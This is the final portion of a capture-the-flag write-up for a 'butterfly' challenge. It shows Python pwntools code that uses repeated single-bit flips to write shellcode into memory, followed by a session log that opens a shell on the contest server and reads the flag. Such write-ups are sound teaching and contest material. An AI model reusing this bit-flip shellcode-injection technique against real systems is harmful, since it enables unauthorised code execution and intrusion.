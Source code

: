 ```python

for i in range(0,len(chunks_gr)):
    flips = list('{:08b}'.format(int(chunks_gr[i],16) ^ int(chunks_sh[i], 16)))
    flips.reverse()
    indices = []
    for j in range(0,len(flips)):
        if (flips[j] == '1'):
            indices.append(j)
    for n in indices:
        r.sendline('0x{:x}'.format((shell_addr + i) * 8 + n))

# Reset the call to mprotect
r.sendline(loop_val)
r.clean()
r.interactive()
```

Let's execute it:

```bash
$ ./payload.py 
[+] Opening connection to butterfly.pwning.xxx on port 9999: Done
[*] Switching to interactive mode 
THOU ART GOD, WHITHER CASTEST THY COSMIC RAY?
[snip]
/bin/sh@ GOD, WHITHER CASTEST THY COSMIC RAY?
/bin/sh
WAS IT WORTH IT???
$ ls
butterfly
flag
wrapper
$ cat flag
PCTF{b1t_fl1ps_4r3_0P_r1t3}
$
```

Yup bit flips for the win!

[fgets]: http://man7.org/linux/man-pages/man3/fgets.3.html
[strtol]: http://man7.org/linux/man-pages/man3/strtol.3.html
[mprotect]: http://man7.org/linux/man-pages/man2/mprotect.2.html
[r2]: http://www.radare.org/r/
[shellnoob]: https://github.com/reyammer/shellnoob
